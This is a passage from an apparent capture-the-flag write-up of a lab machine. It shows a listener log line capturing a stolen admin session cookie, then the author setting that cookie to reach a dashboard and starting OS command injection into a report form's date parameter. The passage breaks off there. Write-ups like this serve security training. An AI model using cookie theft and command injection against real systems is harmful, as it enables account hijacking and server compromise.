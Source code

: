 {% code overflow="wrap" %}
```
10.10.11.8 - - [09/Apr/2024 06:38:47] "GET /?cookie=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```
{% endcode %}

Now setting the cookie in the browser, we can finally access dashboard page:

<figure><img src="../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

Fuzzing for other hidden directories using administrative cookie is a fail:

<figure><img src="../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

Trying to intercept the "Generate Report" request and modify the POST parameter date by injecting some OS commands (Linux) return a beatiful result:
